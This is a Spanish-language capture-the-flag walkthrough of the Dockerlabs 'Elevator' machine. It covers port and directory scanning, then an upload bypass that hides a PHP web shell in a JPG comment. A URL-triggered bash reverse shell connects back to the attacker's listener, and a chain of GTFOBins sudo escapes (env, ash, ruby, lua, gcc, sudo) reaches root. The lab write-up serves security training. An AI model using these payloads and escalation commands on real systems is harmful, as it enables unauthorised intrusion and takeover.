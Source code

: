 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 1/12/2024
  🐳Dockerlabs
hidden: true
---
```


# Elevator

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (972).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (973).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sobre un misterio en un ascensor.

<figure><img src="../.gitbook/assets/image (975).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (976).png" alt=""><figcaption></figcaption></figure>

Entramos en ese directorio pero no encontramos nada. Por lo que hacemos otra búsqueda de directorios.

```bash
gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,html,php
```

<figure><img src="../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

Vemos un directorio `/uploads` y un `archivo.html` por lo que supongamos que podemos subir una Reverse Shell.

<figure><img src="../.gitbook/assets/image (977).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Como podemos ver solo nos deja subir archivos en formato **.jpg** por lo que creamos una imagen y le insertamos código malicioso.

```bash
convert -size 200x200 xc:red ~/Desktop/malicious_image.jpg
exiftool -Comment='<?php system($_GET["cmd"]); ?>' ~/Desktop/malicious_image.jpg
```

Subimos la imagen y nos vamos al directorio `/uploads`.

<figure><img src="../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

Mientras en el buscador.

```bash
http://172.17.0.2/themes/uploads/6748e39cbd8ea.jpg.php?cmd=bash%20-c%20%22bash%20-i%20>%26%20/dev/tcp/192.168.255.136/443%200>%261%22
```

<figure><img src="../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **env** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/env/)cómo explotarlo.

```bash
sudo -u daphne /usr/bin/env /bin/sh
```

<figure><img src="../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>

Ya somos **daphne**.

<figure><img src="../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ash** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/ash/)cómo explotarlo.

```bash
sudo -u vilma /usr/bin/ash
```

<figure><img src="../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>

Ya somos **vilma**.

<figure><img src="../.gitbook/assets/image (985).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ruby** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/ruby/)cómo explotarlo.

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```

<figure><img src="../.gitbook/assets/image (986).png" alt=""><figcaption></figcaption></figure>

Ya somos **shaggy**.

<figure><img src="../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **lua** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/lua/)cómo explotarlo.

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
```

<figure><img src="../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Ya somos **fred**.

<figure><img src="../.gitbook/assets/image (990).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **gcc** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/gcc/)cómo explotarlo.

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
```

<figure><img src="../.gitbook/assets/image (991).png" alt=""><figcaption></figcaption></figure>

Ya somos **scooby**.

<figure><img src="../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **sudo** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/sudo/)cómo explotarlo.

```bash
sudo -u root /usr/bin/sudo /bin/sh
```

<figure><img src="../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>
